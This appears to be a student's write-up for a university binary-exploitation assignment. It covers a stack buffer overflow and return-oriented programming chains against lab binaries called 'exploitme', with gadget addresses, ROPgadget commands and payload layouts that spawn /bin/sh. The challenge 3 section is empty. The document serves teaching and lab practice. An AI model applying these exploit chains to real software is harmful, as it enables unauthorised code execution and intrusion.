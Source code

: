 # assignment 5

Luigi Cussigh
2023148006

## challege 0

i generated characters to pad the stack frame with 'A's till we get to the return address. then i appended characters
that overwrite the return address with \x50\x11\x40\x00\x00\x00\x00\x00\x0a which is the address of a function that calls
execve("/bin/sh", NULL, NULL)

## challenge 1

there's a null terminated string "/bin/sh" at address 0x402004:

``` plaintext
Contents of section .rodata:
 402000 01000200 2f62696e 2f736800 25730025  ..../bin/sh.%s.%
 402010 700a005b 52455355 4c545d20 4e6f7420  p..[RESULT] Not 
 402020 6578706c 6f697465 64203a28 20457869  exploited :( Exi
 402030 74696e67 20736166 656c792e 0a00456e  ting safely...En
 402040 74657220 69643a00 456e7465 72207061  ter id:.Enter pa
 402050 7373776f 72643a00                    ssword:.        
```

using ROPgadget we find a syscall gadget:

ROPgadget --binary ./exploitme | grep syscall

0x000000000040134c : syscall

also we need to set rdi, rsi, rdx, rax using pop gadgets

ROPgadget --binary ./exploitme | grep pop (register)

rdi:
(no pop for rdi, we'll have to get creative..)

rsi:
0x00000000004015e9 : pop rsi ; ret

rdx:
0x00000000004012e8 : pop rdx ; ret

rax:
(no pop for rax, we'll have to get creative..)

since we dont have rdi and rax pops (the most important ones...) we'll have to substitute:

ROPgadget --binary ./exploitme | grep "mov rdi"

rdi: // compound_gadget_0
0x0000000000401363 : mov rdi, rsi ; xor rsi, rsi ; xor rdx, rdx ; syscall

rax:
0x0000000000401230 : mov rax, rsi ; ret

we can run:

pop rsi // store 59 (0x3b) on higher address
mov rax, rsi; ret
pop rsi // store pointer to /bin/sh on higher address
mov rdi, rsi ; xor rsi, rsi ; xor rdx, rdx ; syscall // the xor's set the registers to 0 which is we want to do anyway

{} - ranges of random bytes
() - words that need to be reversed byte by byte

we'll just pass the first function:
"0A"{272 - 2 bytes of random stuff}(00000000004015e9)(000000000000003b)(0000000000401230)(00000000004015e9)(0000000000402004)(0000000000401363)'\n'
  |        |                                           |                                                     |
  |        compensate for "0A"                         value of rax                                          address to "/bin/sh"
  to escape strtol

## challenge 2

the decompiled code of the main program looks somehting like this:

we can see that the while loop just executes every function pointer if its not null in the array that starts at v3-1024
also v3-1024 is written to in vuln_overflow. we can write gadget addresses to the v3-1024 buffer to manipulate the program.

we will again use ROP gadgets to achieve the execution of syscall with rax = 59
let's find some stuff that will do at least something related to 59 or 0x3b

ROPgadget --binary ./exploitme-safestack | grep "0x3b"

we see a lot of gadgets but particularly interesting is:

0x0000000000402bd0 : add rax, 0x3b ; ret

it's very clean and it does almost what we need. we just need to find somehting to set rax to zero before executing this gadget

ROPgadget --binary ./exploitme | grep "rax"

we see:

0x0000000000402b90 : xor rax, rax ; ret

this gadget sets rax to 0. in combination with the previous gadget we can pass the execve syscall number to rax

now let's see what gadgets there are for the syscall instruction:

ROPgadget --binary ./exploitme-safestack | grep "syscall"

0x0000000000402c66 : xor rsi, rsi ; xor rdx, rdx ; syscall

we see the same compound gadget from the last challenge. we'll use it to actually perform the syscall

we need to load the address of the c-string /bin/sh to rdi. we notice that the functions:

0x0000000000402b10 <g_sh@@Base>:
0x0000000000402b10 <g_sh2@@Base>:
0x0000000000402b10 <g_sh3@@Base>:

all do that.

``` asm
402f00: 49 ff c4              inc    r12
402f03: 49 81 fc 80 00 00 00  cmp    r12,0x80
402f0a: 74 1e                 je     402f2a <main@@Base+0x7a>
402f0c: 4b 83 bc e7 00 fc ff  cmp    QWORD PTR [r15+r12*8-0x400],0x0
402f13: ff 00 
402f15: 74 e9                 je     402f00 <main@@Base+0x50>
402f17: 48 89 de              mov    rsi,rbx
402f1a: 43 ff 94 e7 00 fc ff  call   QWORD PTR [r15+r12*8-0x400]
402f21: ff 
402f22: 48 89 df              mov    rdi,rbx
402f25: 48 89 c3              mov    rbx,rax
402f28: eb d6                 jmp    402f00 <main@@Base+0x50>
```

(explanation why id needs to be 16 to write at r15 in main's unsafe stack)

having found all of the gadgets, we can proceed to compile our payload.

the id should just get the number 16, so we will just pass it:

b"16A"

this way, the second gets will start to write in the previous unsafe stack frame.

0x0000000000402b90 : xor rax, rax ; ret
0x0000000000402bd0 : add rax, 0x3b ; ret
0x0000000000402b40 : mov rdx, rax ; ret
0x0000000000402b10 : mov into rax the address of "/bin/sh"
0x0000000000402b70 : mov rax, rdx ; ret
0x0000000000402c66 : xor rsi, rsi ; xor rdx, rdx ; syscall

## challenge 3
